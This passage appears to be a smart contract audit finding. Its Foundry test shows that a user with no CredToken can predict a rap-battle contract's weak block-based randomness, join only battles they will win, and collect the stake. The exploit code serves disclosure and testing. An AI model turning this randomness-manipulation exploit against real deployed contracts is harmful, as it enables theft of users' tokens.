 2. `user` goes on battle as defender.
   - `user2` can also go on battle without having any CredToken.

If `user2` wins, they can get the reward; if they lose, the transaction is reverted.

```javascript
function testGoOnBattleWithZeroCredToken() public mintRapper {
    address user2 = makeAddr("User2");

    vm.startPrank(user);
    oneShot.approve(address(streets), 0);
    streets.stake(0);
    vm.stopPrank();

    vm.warp(4 days + 1);

    vm.startPrank(user);
    streets.unstake(0);
    vm.stopPrank();

    // user has 4 CredToken and user2 has none
    assert(cred.balanceOf(address(user)) == 4);
    assert(cred.balanceOf(address(user2)) == 0);

    // user goes on battle as defender
    vm.startPrank(user);
    oneShot.approve(address(rapBattle), 0);
    cred.approve(address(rapBattle), 3);
    rapBattle.goOnStageOrBattle(0, 3);
    vm.stopPrank();

    // user2 manipulates RNG to only go on battle if they win

    bool win = false;

    while (!win) {
        uint256 defenderRapperSkill = rapBattle.getRapperSkill(0);
        uint256 challengerRapperSkill = rapBattle.getRapperSkill(1);
        uint256 totalBattleSkill = defenderRapperSkill + challengerRapperSkill;

        uint256 random =
            uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, user2))) % totalBattleSkill;

        win = random > defenderRapperSkill ? true : false;

        vm.warp(111 seconds);
        vm.roll(block.number + 1);

        if (win) {
            vm.startPrank(user2);
            rapBattle.goOnStageOrBattle(0, 3);
            vm.stopPrank();
        } else {
            console.log("##### user loses and decides not to go on battle");
        }
    }

    // check the owner of NFT 0
    assertEq(oneShot.ownerOf(0), address(user), "Owner of NFT 0 is not user");

    // check the balance; the user should not get a reward but they get 3 tokens as a reward
    assertEq(cred.balanceOf(address(user2)), 3, "User2 balance is not 3");
}
```